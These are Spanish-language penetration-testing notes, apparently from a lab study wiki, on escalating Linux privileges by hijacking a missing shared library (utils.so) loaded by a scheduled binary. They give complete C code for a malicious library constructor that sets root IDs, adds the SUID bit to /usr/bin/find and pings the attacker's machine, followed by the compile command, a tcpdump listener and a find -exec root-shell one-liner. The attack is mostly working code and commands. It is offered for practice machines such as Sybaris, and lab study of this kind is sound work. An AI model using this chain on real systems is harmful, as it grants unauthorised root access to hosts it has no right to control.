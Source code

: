 
## DESCRIPTION
Si encontramos un binario que tiene una llamada a una librería y que da error. Por ejemplo:

![[Pasted image 20230629173103.png]]

**!!NOTA IMPORTANTE!!** 
Tenemos que tener permiso de escritura en el directorio de la librería

![[Pasted image 20230629173201.png]]

Identificamos que falta la libreria utils.so

#### Mas información
* https://book.hacktricks.xyz/linux-hardening/privilege-escalation/ld.so.conf-example


## EXPLOITATION

1º Creamos nuestra reverse shell o en este caso nuestro exploit en c (en este caso le añade el bit SUID a find)

```
# include <stdio.h>
# include <stdlib.h>
# include <sys/types.h>

static void kashz() __attribute__((constructor));
void kashz() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("chmod +s /usr/bin/find");
        system("ping 192.168.45.220 -c 2");
}

```

2. La transferimos a la maquina

3. La compilamos con el nombre de la libreria faltante:

```
gcc -shared -o utils.so -fPIC library.c 
```
**!!NOTA IMPORTANTE!!**
Incluir el -shared
4. Como se trata de una tarea programada, nos ponemos a la escucha para ver si nos llega el ping y comprobamos que le ha puesto el bit s a find

```
# En nuestra maquina
sudo tcpdump -i tun0 icmp
```

5. En este caso explotamos el FIND para escalar privilegios:

```
find . -exec /bin/sh -p \; -quit
```

## MACHINES

* Hack The Box: 
* PG: Sybaris

**!!NOTA IMPORTANTE!!** 
